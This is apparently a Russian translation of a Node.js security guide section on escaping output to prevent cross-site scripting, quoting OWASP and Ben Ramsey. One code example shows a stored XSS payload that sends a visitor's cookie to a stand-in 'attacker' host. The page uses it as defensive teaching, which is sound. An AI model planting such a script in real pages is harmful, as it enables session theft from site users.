 # Экранируйте вывод

### Объяснение в один абзац

HTML и другие веб-языки смешивают контент с исполняемым кодом - один абзац HTML может содержать визуальное представление данных вместе с инструкциями по выполнению JavaScript. При рендеринге HTML или возврате данных из API то, что мы считаем чистым контентом, может фактически содержать код JavaScript, который будет интерпретироваться и выполняться браузером. Это происходит, например, когда мы визуализируем контент, вставленный злоумышленником, в базу данных - например, `<div><script>//malicious code</script></div>`. Это может быть смягчено путем указания браузеру обрабатывать любой кусок ненадежных данных только как контент и никогда не интерпретировать его - этот метод называется экранированием. Многие библиотеки npm и движки шаблонов HTML предоставляют возможности экранирования (пример: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/узел-esapi)). Не только HTML-контент должен быть экранирован, но также CSS и JavaScript

### Пример кода - не помещайте ненадежные данные в ваш HTML

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script

 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment

 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name

 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name

 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Пример кода - вредоносный контент, который может быть введен в БД

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>window.location='http://attacker/?cookie='+document.cookie</script>
</div>
```

<br/><br/>

### Цитата из блога: "Когда мы не хотим, чтобы символы интерпретировались"

Из блога [benramsey.com](https://benramsey.com/articles/escape-output/)

> Данные могут оставить ваше приложение в виде HTML, отправленного в веб-браузер, SQL, отправленного в базу данных, XML, отправленного в программу чтения RSS, WML, отправленного на беспроводное устройство, и т.д. Возможности безграничны. Каждый из них имеет свой собственный набор специальных символов, которые интерпретируются иначе, чем остальная часть полученного простого текста. Иногда мы хотим отправить эти специальные символы так, чтобы они интерпретировались (например, HTML-теги, отправляемые в веб-браузер), в то время как в других случаях (в случае ввода от пользователей или какого-либо другого источника) нам не нужно интерпретировать символы, поэтому мы должны экранировать их.

> Экранирование также иногда называют "кодированием". Короче говоря, это процесс представления данных таким образом, что они не будут выполнены или интерпретированы. Например, HTML будет отображать следующий текст в веб-браузере как текст, выделенный жирным шрифтом, поскольку теги `<strong>` имеют особое значение:
> <strong>This is bold text.</strong>
> Но, предположим, я хочу отобразить теги в браузере и избежать их интерпретации. Затем мне нужно избежать угловых скобок, которые имеют особое значение в HTML. Следующее иллюстрирует экранированный HTML:

`&lt;strong&gt;This is bold text.&lt;/strong&gt;`

<br/><br/>

### Цитата из блога: "OWASP рекомендует использовать библиотеку кодирования, ориентированную на безопасность"

Из блога OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "Написание этих кодировщиков не так уж сложно, но есть немало скрытых ловушек. Например, у вас может возникнуть соблазн использовать некоторые из таких ярлыков, как `\"`, в JavaScript. Однако эти значения опасны и могут быть неправильно истолкованы вложенными анализаторами в браузере. Вы также можете забыть избежать парсинга, который злоумышленники могут использовать для нейтрализации ваших попыток быть в безопасности. **OWASP рекомендует использовать ориентированную на безопасность библиотеку кодирования, чтобы обеспечить правильное выполнение этих правил**."

<br/><br/>

### Цитата из блога: "Вы ДОЛЖНЫ использовать синтаксис escape для части HTML"

Из блога OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "Но кодирование сущностей HTML не работает, если вы помещаете ненадежные данные в тег `<script>` где-либо, или в атрибут обработчика событий, например `onmouseover`, или в CSS, или в URL. Так что даже если вы используете сущность HTML Метод кодирования везде, вы все еще, скорее всего, уязвимы для XSS. Вы ДОЛЖНЫ использовать синтаксис escape для той части HTML-документа, в которую вы помещаете ненадежные данные."

